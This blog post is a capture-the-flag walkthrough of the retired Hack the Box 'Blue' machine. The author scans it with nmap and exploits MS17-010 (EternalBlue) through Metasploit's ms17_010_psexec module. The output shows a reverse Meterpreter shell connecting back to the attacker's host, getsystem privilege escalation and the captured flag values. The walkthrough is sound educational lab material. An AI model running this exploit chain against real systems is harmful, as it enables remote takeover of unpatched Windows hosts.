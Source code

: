 ```yaml
---
title: Blue, Hack the Box CTF Walkthrough
lead: Exploiting the MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution Vulnerability
tag: CTF
image: /assets/img/posts/2021-03-04-blue-hack-the-box-walkthrough/blue.png
layout: post
description: ""
date:   2021-03-03 20:01:21 -0400
last-updated: 2021-03-03 20:01:21 -0400
tag: ctf
author: Tyler Butler
description: Blue is an easy level machine in the Hack the Box retired archives requiring simple enumeration and basic level understanding of metasploit
card: card-2
navheader: posts
---
```


Blue is an easy level machine in the Hack the Box retired archives. This machine requires a simple enumeration scan to identify services and versions, and knowledge of using pre-configured metasploit modules to exploit a well-known vulnerability. The title of this box should be a major clue to what vulnerabilities might exist. 

## Enumeration  

First, I used nmap and the nmapAutomator script to search the target for open ports, running services, and their corresponding service versions. 

```bash
┌──(kali㉿kali)-[~/Documents/htb/blue]
└─$ nmapAutomator.sh 10.10.10.226 All
```  

```bash
┌──(kali㉿kali)-[~/Documents/htb/blue]
└─$ sudo nmap -sV -A -O --top-ports 200 10.10.10.40                                                                                                    1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 15:24 EST
Nmap scan report for 10.10.10.40
Host is up (0.055s latency).
Not shown: 191 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
```

The resulting output shows the target was running windows microsoft-ds,netbios, and msrpc. I had a feeling this machine was vulnerable to eternal blue due to the box title. To check my assumption, I opened up metasploit and used a `check` option in one of the ms17_010 related modules. After setting the RHOST to the target, the check revealed it was likely vulnerable. 

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
msf6 exploit(windows/smb/ms17_010_psexec) > 
```

## Selecting a Public Exploit  

There are a few metasploit modules which can be used to root a machine vulnerable to eternal blue, i decided to use the `windows/smb/ms17_010_psexec` module. After opening the msfconsole, and selecting the psexec module, I configured the options to use the target as the RHOST and my machine as the LHOST. Running the exploit was successful.

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.40:49161) at 2021-03-04 15:11:16 -0500

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

## Finding Flags  

I stayed in the meterpreter shell to navigate the target and search for flags. Using the search meterpreter command, I found both the user and root flag files.

```bash
meterpreter > search -f *user.txt*
Found 3 results...
    c:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Recent\user.txt.lnk (909 bytes)
    c:\Users\haris\AppData\Roaming\Microsoft\Windows\Recent\user.txt.lnk (556 bytes)
    c:\Users\haris\Desktop\user.txt (32 bytes)
meterpreter > type "c:\Users\haris\Desktop\user.txt"
[-] Unknown command: type.
meterpreter > cat "c:\Users\haris\Desktop\user.txt"
4c546aea7dbee75cbd71de245c8deea9meterpreter > 
```  

```bash
meterpreter > search -f "root.txt"
Found 1 result...
    c:\Users\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat "c:\Users\Administrator\Desktop\root.txt"
ff548eb71e920ff6c08843ce9df4e717meterpreter > 
```
